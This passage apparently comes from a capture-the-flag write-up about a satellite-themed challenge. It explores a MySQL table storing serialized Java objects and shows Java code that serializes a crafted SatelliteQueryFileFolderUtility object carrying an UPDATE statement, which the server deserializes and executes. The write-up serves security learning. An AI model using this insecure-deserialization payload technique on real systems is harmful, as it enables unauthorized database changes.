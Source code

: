 ```
    }
}
 |
1 row in set (0.13 sec)
```

The `object` column contains a serialized Java object. This object is happened to be an instance of the `SatelliteQueryFileFolderUtility` class present in the `results` column.

The constructor gets 3 arguments (`String pathOrStatement, boolean isQuery, boolean isUpdate`), if the second and third parameter is true, it will execute the update query given in the first parameter. If the `isQuery` argument is `false`, it will read the file on the path given in the first argument, this happened in the first row.

Let's try to insert a malformed byte stream which is not a serialized Java object.

```sql
mysql> INSERT INTO satellite_query (object) VALUES (X'ABCDEF');
Query OK, 1 row affected (0.14 sec)

mysql> select * from satellite_query;
| jid | object | results |
[...]
|   2 | 0xABCDEF | Deserialization/IO Exception: java.io.EOFException |
2 rows in set (0.13 sec)
```

We get an error!

We might be able to serialize an object of the `SatelliteQueryFileFolderUtility` class which is initialized with the proper UPDATE SQL statement and the other two properties are set to true. Our guess it that the server (some automatism) will deserialize the object and execute the `getResult()` function. Let's write the serialization logic ([main.java](files/main.java)) in Java using the collected class.

```java
String filename = "SatelliteQueryFileFolderUtility-update.ser";
SatelliteQueryFileFolderUtility object = new SatelliteQueryFileFolderUtility("UPDATE pointing_mode SET numerical_mode=1;", true, true);
try
{   
    FileOutputStream file = new FileOutputStream(filename);
    ObjectOutputStream out = new ObjectOutputStream(file);
    out.writeObject(object);
    out.close();
    file.close();
    System.out.println("Object has been serialized");
}
    
catch(IOException ex)
{
    System.out.println("IOException is caught");
}
```
 